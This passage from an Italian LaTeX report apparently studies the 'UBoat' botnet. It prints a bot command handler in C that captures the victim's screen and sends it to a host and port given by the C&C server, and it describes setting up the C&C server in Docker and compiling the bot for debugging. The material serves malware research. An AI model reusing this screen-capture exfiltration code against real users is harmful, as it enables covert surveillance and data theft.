 \lstset{numbers=left,tabsize=2}
\begin{lstlisting}[float,floatplacement=H,caption={Esempio di handler di comandi.},captionpos=b,label={listing-uboat1}]{numbers=left}
void ScreenshotParser(int commandId, int commandType, char* data)
{
	int len;
	char** splitResults = SplitString(data, "@", &len, false);
	unsigned short port = (unsigned short)strtoul(splitResults[1], NULL, 0);

	int length;
	char* scr = CaptureScreenshot(&length);

	bool result = SendScreenshot(splitResults[0], port, scr, length,
            GetBotId());
	FreeSplitStringBuffer(splitResults, len);

	char* command = CreateCommand(commandId, commandType,
            result ? "Success" : "Fail", result ? 7 : 4);
	FreeScreenshot(scr);
	char* response = SendCommandWithDecodedResponse(command);
	FreeDecodedResponse(response);
}
\end{lstlisting}

\begin{figure}[hbtp]
    \centering
    \texttt{[image: uboatcommandexecution.png]}
    \caption{esecuzione di un comando richiesto al C\&C.}
    \label{fig:uboatcommandexecution}
\end{figure}

\section{Deploy, testing e debug}
Il deploy del server è stato eseguito attraverso containerizzazione del web server e del DBMS. In particolare è stato utilizzato Docker Compose per eseguire contemporaneamente entrambi i container attraverso un unico file di configurazione ed un unico comando.
Questo (\ref{listing-uboat2}) illustra le porte e le directory da mappare, le variabili d'ambiente da utilizzare per la configurazione di MariaDB, nonché altre informazioni pertinenti, come la rete a cui associare i servizi e informazioni di risoluzione dei container.
L'handler delle richieste di upload veniva eseguito dall'interno del container all'occorrenza, eseguendo uno script PHP in background.

\medskip 
Dopo aver configurato l'indirizzo del server  C\&C nel codice sorgente del payload e installato gli strumenti necessari, come il Software Developer Kit (SDK) e i Build Tools, il payload è stato compilato ed eseguito in Visual Studio. Questo ha permesso di utilizzare il \textit{debugger} integrato dell'IDE per analizzare il funzionamento del bot.


